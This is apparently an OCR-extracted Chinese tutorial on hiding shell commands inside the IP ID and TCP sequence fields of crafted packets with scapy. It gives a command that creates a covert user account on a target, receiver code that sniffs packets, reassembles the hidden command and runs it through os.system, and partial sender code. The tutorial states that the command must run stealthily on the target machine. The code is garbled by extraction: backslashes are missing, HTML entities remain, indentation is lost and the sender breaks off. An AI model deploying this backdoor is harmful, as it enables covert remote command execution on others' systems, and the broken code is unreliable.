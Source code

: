 我们要运行一个简单的命令，如下： 

```
useradd -p $(openssl passwd -1 covert_password) covert_user
```

这样就能在远程机器中创建具有密码的用户。

该命令必须悄悄地潜伏到目标机器上执行。

该命令必须被分割，以放入多个数据包。我们必须创建一个开关，通知侦听器哪个是最后一个数据包，因为不同的命令有不同的长度。

所以我们从数据包的6个字节的可用带宽中牺牲一个字节，将其用于开关。

此外，还有一个填充的概念。如果命令的长度除以5（单个数据包的新带宽）带有余数，则意味着最后一个数据包需要利用额外的字节来填充。这些字节称为填充，需要能够轻松删除或忽略。

<br>

**（scapy）代码**

**接收器代码**



```
from os import system
from struct import pack
payload = ''
while True :
packet = sniff (iface = 'lo', count = 1) [0]
packet_payload = ''.join( pack("&lt;HI", packet.id, packet.seq) )
payload += packet_payload[1:]
if packet_payload[0] == 'xff' :
continue
if packet_payload[0] == 'xdd' :
os.system(payload.replace('x00', ''))
print "Run command '%s'" % payload
payload = ''
```

这个有点长，不是吗？因为使用Python语言的话需要14行代码。让我们用自然语言试试： 

在无限循环中，我们取出看到的第一个数据包，然后重新组合已经拆分放入ID和序列号字段中的字符串我们将该字符串添加到有效载荷中。

如果我们看到字节 xff，那么很好，继续 #这行代码作为附加功能的句柄添加 

如果我们看到字节 xdd，这意味着我们得到的数据包是命令中的最后一个包。

我们使用system()在shell中运行命令

宣布我们的任务，让beta测试员开心一下。

清空有效负载字符串，使之为下一个命令做好准备。

从头开始循环 

看，只有10行。因为自然语言不需要includes和imports语句。

**发送器代码 **



```
from struct import unpack
def chunker(payload, chunk_size = 5) :
packetN = (len(payload) / chunk_size)
if len(payload) % chunk_size &gt; 0 :
packetN + 1
payload += 'x00' * ( chunk_size - (len(payload) % chunk_size) )
packets = []
payload_chuncks = [payload[x:x + chunk_size] for x in xrange(0, len( payload ), chunk_size
) ]
for i in range( len(payload_chuncks) - 1) :
ip_id, tcp_isn = unpack("&lt;HI", 'xff' + payload_chuncks[i])
packet = IP( id = ip_id )/TCP( seq = tcp_isn )
packets.append( packet )
```